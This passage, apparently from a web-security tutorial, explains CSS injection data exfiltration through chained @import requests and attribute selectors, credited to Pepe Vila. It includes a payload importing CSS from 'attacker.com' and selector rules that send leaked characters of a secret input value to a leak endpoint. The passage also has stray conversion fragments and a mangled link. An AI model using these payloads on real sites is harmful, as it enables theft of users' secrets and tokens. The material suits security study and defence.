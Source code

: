 ```
    background: url(/m);
  }
</style>

```
```
Combining this with the following **@import** technique, it's possible to exfiltrate a lot of **info using CSS injection from blind pages with** [[https://github.com/hackvertor/blind-css-exfiltration|**blind-css-exfiltration**]]**.**

### @import

The previous technique has some drawbacks, check the prerequisites. You either need to be able to **send multiple links to the victim**, or you need to be able to **iframe the CSS injection vulnerable page**.

However, there is another clever technique that uses **CSS `@import`** to improve the quality of the technique.

This was first showed by [[https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf|**Pepe Vila**]] and it works like this:

Instead of loading the same page once and again with tens of different payloads each time (like in the previous one), we are going to **load the page just once and just with an import to the attackers server** (this is the payload to send to the victim):

```css
@import url("//attacker.com:5001/start?");
```
```
1. The import is going to **receive some CSS script** from the attackers and the **browser will load it**.
2. The first part of the CSS script the attacker will send is **another `@import` to the attackers server again.**
   1. The attackers server won't respond this request yet, as we want to leak some chars and then respond this import with the payload to leak the next ones.
3. The second and bigger part of the payload is going to be an **attribute selector leakage payload**
   1. This will send to the attackers server the **first char of the secret and the last one**
4. Once the attackers server has received the **first and last char of the secret**, it will **respond the import requested in the step 2**.
   1. The response is going to be exactly the same as the **steps 2, 3 and 4**, but this time it will try to **find the second char of the secret and then penultimate**.

The attacker will f**ollow that loop until it manages to leak completely the secret**.

You can find the original [[https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) or you can find almost the [**same code but commented here**.](#css-injection|**Pepe Vila's code to exploit this here**]]

> [!TIP]
> The script will try to discover 2 chars each time (from the beginning and from the end) because the attribute selector allows to do things like:
>
> ```css
> /* value^=  to match the beggining of the value*/
> input[value^="0"] {
>  --s0: url(http://localhost:5001/leak?pre=0);
> }
>
> /* value$=  to match the ending of the value*/
> input[value$="f"] {
>  --e0: url(http://localhost:5001/leak?post=f);
> }
```